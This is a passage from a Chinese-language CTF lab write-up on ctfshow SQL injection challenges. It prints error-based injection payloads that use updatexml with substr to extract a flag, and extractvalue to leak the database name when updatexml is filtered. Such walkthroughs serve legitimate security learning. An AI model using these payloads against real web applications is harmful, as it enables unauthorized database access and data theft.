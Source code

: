 爆了一半，把爆出来看一下长度`~ctfshow{ce2b69c3-1ca9-4609-ad6c`，32位，用`substr`函数，把前面的截掉，看看后面的一段，感觉对不是就往前少截点

```sql
?id=1' and updatexml(1,concat(0x7e,substr((select flag from ctfshow_flag),30,20),0x7e),1)%23
```

![2443](/medias/show-sql/2443.png)

## web 245

过滤了`updatexml`函数，还可以用类似功能函数`extractvalue`

![245](/medias/show-sql/245.png)

用法

```sql
select user,password from users where user_id=1 and (extractvalue(1,concat(0x7e,(select database()),0x7e)));
```

这里的题目需要结合联合注入，拿去试试
